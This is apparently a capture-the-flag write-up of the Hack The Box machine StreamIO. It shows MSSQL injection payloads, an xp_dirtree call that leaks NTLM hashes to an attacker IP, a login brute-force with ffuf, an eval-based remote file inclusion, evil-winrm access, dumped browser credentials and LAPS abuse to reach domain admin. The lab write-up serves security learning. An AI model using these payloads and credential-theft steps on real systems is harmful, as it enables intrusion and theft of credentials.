

# StreamIO


**Jun 5, 2022**

Doing a NMAP scan to discover open ports and service versions.

Domain: streamIO.htb



After the discovery of the open ports, we did a file fuzzing in the main route of the HTTP server.


Fuzzing directories:


Main page


Names obtained from the page:

Names: Barry, Oliver, Samantha


The watch subdomain has a input of search movies, we identified in this input a SQL Injection vulnerability.


### Dumping NTLM using MSSLQ + SQL INJECTION

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

```python
sudo responder -I tun0 #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat
'exec master..xp_dirtree '\\10.10.10.10\test'-- x
'union select 1,2,3,4,5,6; exec master..xp_dirtree '\\10.10.10.10\test'-- x
```


This type of hash is almost impossible of crack.

### Performing MSSQL Injection


Concat: [https://docs.microsoft.com/pt-br/sql/t-sql/functions/concat-transact-sql?view=sql-server-ver16](https://docs.microsoft.com/pt-br/sql/t-sql/functions/concat-transact-sql?view=sql-server-ver16)

Sequence of payloads used to dump the databases, columns, tables and data inside of it.

```python
q=Gone'union select '1',column_name,'3','4','5','6' FROM information_schema.columns-- x
			
STREAMIO [DB]
   TABLES - users
------------------------
username -  COLUMN
admin
Alexendra
Austin
Barbra
Barry
Baxter
Bruno
Carmon
Clara
Diablo
Garfield
Gloria
James
Juliette
Lauren
Lenord
Lucifer
Michelle
Oliver
Robert
Robin
Sabrina
Samantha
Stan
Thane
Theodore
Victor
Victoria
William
yoshihide
-----------------------

--------------------------------
password - COLUMN
0049ac57646627b8d7aeaccf8b6a936f
08344b85b329d7efd611b7a7743e8a09
083ffae904143c4796e464dac33c1f7d
0cfaaaafb559f081df2befbe66686de0
1c2b3d8270321140e5153f6637d3ee53
22ee218331afd081b0dcd8115284bae3
2a4e2cf22dd8fcb45adcb91be1e22ae8
35394484d89fcfdb3c5e447fe749d213
3577c47eb1e12c8ba021611e1280753c
384463526d288edcc95fc3701e523bc7
3961548825e3e21df5646cafe11c6c76
54c88b2dbd7b1a84012fabc1a4c73415
665a50ac9eaa781e4f7f04199db97a11
6dcd87740abb64edfa36d170f0d5450d
7df45a9e3de3863807c026ba48e55fb3
8097cedd612cc37c29db152b6e9edbd3
925e5408ecb67aea449373d668b7359e
b22abb47a02b52d5dfa27fb0b534f693
b779ba15cedfd22a023c4d8bcf5f2332
b83439b16f844bd6ffe35c02fe21b3c0
bf55e15b119860a6e6b5a164377da719
c660060492d9edcaa8332d89c99c9239
d62be0dc82071bccc1322d64ec5b6c51
dc332fb5576e9631c9dae83f194f8e70
ec33265e5fc8c2f1b0c137bb7b3632b5
ee0b8a0937abd60c2882eacb2f8dc49f
ef8f3d30a856cf166fb8215aca93e9ff
f03b910e2bd0313a23fdd7575f34a694
f87d3c0d6c8fd686aacc6627f1f493a5
fd78db29173a5cf701bd69027cb9bf6b
--------------------------------

# Extract columns from table Users and table Streamio
q=Gone'union select '1',name,'3','4','5','6' FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')-- x

# Extract users from Users
q=Gone'union select '1',concat(id,username,password,is_staff),'3','4','5','6' from Users-- x
```

Dumped credentials table:


Cracking the admin password:


All cracked hashes

```python
highschoolmusical
physics69i
66boysandgirls..
%$clara
$monique$1991$
$hadoW
$3xybitch
##123a8j8w5123##
!?Love?!123
!5psycho8!
!!sabrina$
```

This post request is used to validate the credentials doing a login with the obtained credentials in a recursive way, if the credential is valid, the return will be 302


Credentials

```python
username: yoshihide
password: 66boysandgirls..

ffuf -X POST -u https://streamio.htb/login.php -d 'username=USERS&password=PASS' -w users.txt:USERS,passwords.txt:PASS -replay-proxy http://127.0.0.1:8080 -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.' -H 'Cookie: PHPSESSID=ivnq0iu0uqsesj4kvah9ftg22j' -H 'Content-Type: application/x-www-form-urlencoded' -fs 4207
```

Accessing admin panel with the credentials

Admin panel parameter fuzzing.


The parameter “debug” is vulnerable to LFI 


Fuzzing files on Windows machine


Application PATH


Filtered words


Master PHP file.

```python
yr<h1>Movie managment</h1>
<?php
if(!defined('included'))
	die("Only accessable through includes");
if(isset($_POST['movie_id']))
{
$query = "delete from movies where id = ".$_POST['movie_id'];
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
$query = "select * from movies order by movie";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
	<div class="form-control" style="height: 3rem;">
		<h4 style="float:left;"><?php echo $row['movie']; ?></h4>
		<div style="float:right;padding-right: 25px;">
			<form method="POST" action="?movie=">
				<input type="hidden" name="movie_id" value="<?php echo $row['id']; ?>">
				<input type="submit" class="btn btn-sm btn-primary" value="Delete">
			</form>
		</div>
	</div>
</div>
<?php
} # while end
?>
<br><hr><br>
<h1>Staff managment</h1>
<?php
if(!defined('included'))
	die("Only accessable through includes");
$query = "select * from users where is_staff = 1 ";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
if(isset($_POST['staff_id']))
{
?>
<div class="alert alert-success"> Message sent to administrator</div>
<?php
}
$query = "select * from users where is_staff = 1";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
	<div class="form-control" style="height: 3rem;">
		<h4 style="float:left;"><?php echo $row['username']; ?></h4>
		<div style="float:right;padding-right: 25px;">
			<form method="POST">
				<input type="hidden" name="staff_id" value="<?php echo $row['id']; ?>">
				<input type="submit" class="btn btn-sm btn-primary" value="Delete">
			</form>
		</div>
	</div>
</div>
<?php
} # while end
?>
<br><hr><br>
<h1>User managment</h1>
<?php
if(!defined('included'))
	die("Only accessable through includes");
if(isset($_POST['user_id']))
{
$query = "delete from users where is_staff = 0 and id = ".$_POST['user_id'];
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
$query = "select * from users where is_staff = 0";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
	<div class="form-control" style="height: 3rem;">
		<h4 style="float:left;"><?php echo $row['username']; ?></h4>
		<div style="float:right;padding-right: 25px;">
			<form method="POST">
				<input type="hidden" name="user_id" value="<?php echo $row['id']; ?>">
				<input type="submit" class="btn btn-sm btn-primary" value="Delete">
			</form>
		</div>
	</div>
</div>
<?php
} # while end
?>
<br><hr><br>
<form method="POST">
<input name="include" hidden>
</form>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>
```

RFI in “master.php” file.


We can abuse of eval to execute commands:


The command was executed:


Creating a malicious code to interact better.


Reverse shell payload


The reverse shell was spawned with powershell payload.


On PHP files we can find some database credentials.


```python
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
```

Chisel forwarding: [https://infinitelogins.com/2020/12/11/tunneling-through-windows-machines-with-chisel/#:~:text=Chisel is an application that,of a compromised Windows computer](https://infinitelogins.com/2020/12/11/tunneling-through-windows-machines-with-chisel/#:~:text=Chisel%20is%20an%20application%20that,of%20a%20compromised%20Windows%20computer).

47001

On windows machine:


On Linux machine:


Port scanning with tunnel.


To work better, I setup the dbeaver to access the database.


Enumerating the backup database, we can get this data, crack the passwords and try login on the machine. 


Users on the machine:


Formatting the data that was dumped to crack them with JOHN


Cracked passwords


```python
get_dem_girls2@yahoo.com (nikk37)
66boysandgirls.. (yoshihide)
##123a8j8w5123## (Lauren)
```

Finally the user shell was obtained with nikk37.

```python
evil-winrm -i 10.10.11.158 -u nikk37 -p get_dem_girls2@yahoo.com
```


Getting the user flag.


After get the user shell we start the sharphound to collect data to analyze with bloodhound.


Copying the loot to our attack machine:


With winpeas we dumped the credentials of the slack saved on the firefox


```python
Showing saved credentials for Firefox
     Url:           https://slack.streamio.htb
     Username:      admin
     Password:      JDg0dd1s@d0p3cr3@t0r
 
   =================================================================================================

     Url:           https://slack.streamio.htb
     Username:      nikk37
     Password:      n1kk1sd0p3t00:)
 
   =================================================================================================

     Url:           https://slack.streamio.htb
     Username:      yoshihide
     Password:      paddpadd@12
 
   =================================================================================================

     Url:           https://slack.streamio.htb
     Username:      JDgodd
     Password:      password@12
```

I tried to export the LAPS data to the desktop of my user.


After the export I copied the file to my machine. 

[https://smarthomepursuits.com/export-laps-passwords-powershell/](https://smarthomepursuits.com/export-laps-passwords-powershell/)


The shortest path to the domain admin is this, we need to get the JDGODD user


The next step is use all the passwords obtained to do a passwordspray against the JDGODD account.


```python
streamIO.htb\JDGODD:JDg0dd1s@d0p3cr3@t0r

JDGODD - JDg0dd1s@d0p3cr3@t0r
```

Dumping the domain data using ldap

```python
ldapdomaindump 10.10.11.158 -u 'streamIO.htb\JDGODD' -p 'JDg0dd1s@d0p3cr3@t0r' --no-json --no-grep
```


Computer name: DC.streamIO.htb


Adding user to the CORE STAFF group to explore


Trying, dumping LAPS to get the administrator password.


The administrator account was obtained.

